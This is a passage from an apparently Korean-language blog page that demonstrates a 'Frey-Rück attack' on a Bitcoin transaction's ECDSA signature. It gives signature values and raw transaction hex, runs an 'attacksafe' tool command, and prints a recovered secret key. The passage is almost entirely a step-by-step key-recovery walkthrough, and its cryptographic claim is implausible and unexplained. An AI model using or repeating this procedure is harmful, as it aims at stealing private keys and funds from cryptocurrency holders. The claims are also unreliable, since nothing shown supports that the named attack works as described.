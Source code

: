 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-54-1024x261.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-994"/></figure>



<pre class="wp-block-code"><code>R = 0x3458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d
S = 0x445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d0913
Z = 0x8b65d49dde9949e5ea18ae637d7f4f48c7c3b38957892a94a3bab994fec4eee7</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-55-1024x313.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-996"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool frey_ruck_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-57-1024x466.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-999"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xa63d1fe332773809f41bc0d67262088d918a34a71444e30c19424c64b13e6e3c
